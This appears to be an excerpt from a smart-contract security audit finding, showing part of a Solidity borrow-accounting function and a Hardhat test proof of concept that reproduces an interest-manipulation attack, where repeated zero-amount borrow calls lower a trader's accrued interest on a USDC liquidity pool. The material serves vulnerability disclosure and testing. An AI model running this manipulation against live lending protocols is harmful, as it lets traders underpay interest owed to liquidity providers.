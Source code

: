 ```solidity
    totalBorrowsSnapshotTimestamp = block.timestamp;
    return newTotalBorrows;
}
```

**Proof of Concept**

Please add the following test case to `liquidity_pool.spec.ts` in order to reproduce the above interest manipulation attack.

```typescript
it.only("Expect interest to be correctly accrued despite repeated calls to borrow with zero amount", async function () {
  await USDC.connect(firstInvestor).transfer(
    await marginTrading.getAddress(),
    ethers.parseUnits("50", 6)
  );

  // Investor provides 3000 USDC to pool
  const amountFirstInvestor = ethers.parseUnits("3000", 6);
  await USDC.connect(firstInvestor).approve(
    liquidityPoolUSDC.getAddress(),
    amountFirstInvestor
  );
  await liquidityPoolUSDC.connect(firstInvestor).provide(amountFirstInvestor);

  // Trader borrows 1000 USDC
  const firstTraderDebtAmount = ethers.parseUnits("1000", 6);
  await marginTrading
    .connect(firstTrader)
    .borrow(ethers.parseUnits("1", 0), firstTraderDebtAmount);

  const timeBefore = await time.latest();
  // OK case: Wait 1h
  // await time.increaseTo(await time.latest() + 60 * 60);
  // .. or ..
  // Manipulated case: Trader borrows with zero amount for 1h
  for (let i = 0; i < 60 * 60; i++) {
    await marginTrading
      .connect(firstTrader)
      .borrow(ethers.parseUnits("1", 0), 0);
  }
  const timeAfter = await time.latest();
  // Benchmark elapsed time to make sure both cases take equally long
  console.log(timeAfter - timeBefore);

  // Trader repays entire debt
  const returnAmount = await liquidityPoolUSDC.getDebtWithAccruedInterestOnTime(
    ethers.parseUnits("1", 0),
    (await time.latest()) + 1
  );
  await marginTrading.connect(firstTrader).repay(
    ethers.parseUnits("1", 0),
    returnAmount, // repayment of the entire debt, it is expected that MarginTrading will independently call this function
    await USDC.getAddress(),
    returnAmount
  );

  // Expect interest to be correctly accrued
  const accruedInterest = returnAmount - firstTraderDebtAmount;
  expect(accruedInterest).to.equal(ethers.parseUnits("5571", 0));
});
```
